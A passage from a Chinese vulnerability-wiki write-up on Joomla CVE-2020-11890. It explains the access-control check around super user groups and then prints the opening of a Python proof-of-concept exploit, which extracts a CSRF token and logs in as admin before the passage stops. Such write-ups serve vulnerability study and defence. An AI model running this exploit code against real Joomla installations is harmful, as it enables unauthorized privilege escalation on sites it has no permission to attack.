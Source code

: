 ![14.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId51.png)

程序判断superuser的祖先节点是否有在\$this-\>data中出现，\$this-\>data值如下

![15.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId52.png)

\$this-\>data数组代表目前用户不可以访问的节点id。由于我们使用的是administrator用户组的账号，不可以操作的用户组节点id为8，即super
user，因此\$this-\>data数组值为array (8 =\> 1,)

superuser的祖先数组中的叶子节点值为8，正好在目前用户不可以访问的\$this-\>data数组中

![16.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId53.png)

因此该用户权限无法进行操作，程序抛出当前用户不是超级管理员的错误

![17.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId54.png)

### 漏洞复现

![111.png](/Users/aresx/Documents/VulWiki/.resource/(CVE-2020-11890)Joomla远程命令执行漏洞/media/rId56.png)

    #!/usr/bin/python
    import sys
    import requests
    import re
    import argparse


    def extract_token(resp):
        match = re.search(r'name="([a-f0-9]{32})" value="1"', resp.text, re.S)
        if match is None:
            print("[-] Cannot find CSRF token!\n")
            return None
        return match.group(1)


    def try_admin_login(sess, url, uname, upass):
        admin_url = url + '/administrator/index.php'
        print('[+] Getting token for admin login')
        resp = sess.get(admin_url, verify=True)
        token = extract_token(resp)
        if not token:
            return False
        print('[+] Logging in to admin')
        data = {
            'username': uname,
            'passwd': upass,
            'task': 'login',
            token: '1'
        }
        resp = sess.post(admin_url, data=data, verify=True)
        if 'task=profile.edit' not in resp.text:
            print('[!] Admin Login Failure!')
            return None
        print('[+] Admin Login Successfully!')
        return True
